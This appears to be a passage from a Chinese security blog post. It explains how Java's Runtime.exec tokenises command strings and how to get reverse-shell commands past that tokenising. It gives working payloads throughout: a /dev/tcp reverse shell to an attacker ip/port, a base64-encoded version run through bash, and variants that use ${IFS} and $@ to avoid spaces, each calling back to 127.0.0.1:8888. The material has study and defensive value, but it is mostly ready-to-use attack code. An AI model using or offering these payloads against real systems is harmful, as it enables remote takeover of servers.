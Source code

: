 ```java
// exec(String cmdarray[])
public Process exec(String cmdarray[]) throws IOException {
    return exec(cmdarray, null, null);
}
```
这里有可能看到不管是`public Process exec(String command)`还是`public Process exec(String cmdarray[])`最终都调用了`public Process exec(String command, String[] envp, File dir)`，`public Process exec(String[] cmdarray, String[] envp)`这样的具体方法。  
其中有一个函数`StringTokenizer ` 
`StringTokenizer` 通过分割符进行分割，java 默认的分隔符是空格("")、制表符(\t)、换行符(\n)、回车符(\r)  
因此在传入`Runtime.getRuntime().exec("bash -i >& /dev/tcp/ip/port 0>&1");`会被拆分成如下形式 

1 | 2 | 3 | 4 | 5  
-|-|-|-|- 
bash | -i | >& | /dev/tcp/ip/port | 0>&1 

而我们执行`r.exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/ip/port 0>&1"});`,执行到exec(cmdarray, envp, dir);时，cmdarray的参数结果是： 

1 | 2 | 3  
-|-|- 
/bin/bash | -c | bash -i >& /dev/tcp/ip/port 0>&1  
## Base64
因此为了绕过空格，这里直接推荐最放便的base64写法  
`Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}");

## ${IFS}
能否找到一个替换字符，使其通过`StringTokenizer(String str)`不进行分割，但是又被`/bin/bash`能够正确地识别为空格的字符？

还是有解决方法的。

在Linux环境中,`${IFS}`是一个内置的变量，用于标示命令中参数的分隔符。通常他的取值是空格+TAB+换行（0x20 0x09 0x0a）。尝试:  
```sh
❯ echo "abc" | hexdump -C
00000000  61 62 63 0a                                       |abc.|
00000004
❯ echo "a${IFS}b${IFS}c"|hexdump -C
00000000  61 20 09 0a 00 62 20 09  0a 00 63 0a              |a ...b ...c.|
0000000c

```
结果就显示出了`${IFS}`其实就是`0x20 0x09 0x0a`。尝试利用`${IFS}`,于是我们的代码变成了：  
```java
Runtime.getRuntime().exec("/bin/bash -c bash${IFS}-i${IFS}>&/dev/tcp/127.0.0.1/8888<&1");
```

## $@
发现在`linux`中还存在`$@`和`$*`，他们的含义都是`list of all arguments passed to the script`。
尝试命令：
```sh
/bin/sh -c '$@\|sh' xxx  echo ls
```
可以成功地执行`ls`。分析下这个命令，当`bash`解析到`'$@|sh' xxx echo ls`，发现`$@`。`$@`需要取脚本的参数，那么就会解析`xxx echo ls`，由于`$@`只会取脚本参数，会将第一个参数认为是脚本名称(认为`xxx`是脚本名称)，就会取到`echo ls`。那么最终执行的就是`echo ls|sh`，就可以成功地执行`ls`命令了。
```java
Runtime.getRuntime().exec("/bin/bash -c $@\|bash 0 echo bash -i >&/dev/tcp/127.0.0.1/8888 0>&1");
```
最终相当于执行了`echo 'bash -i >&/dev/tcp/127.0.0.1/8888 0>&1'|bash`命令，成功反弹shell。同样地，`/bin/bash -c $*|bash 0 echo bash -i >&/dev/tcp/127.0.0.1/8888 0>&1`也是可以的。

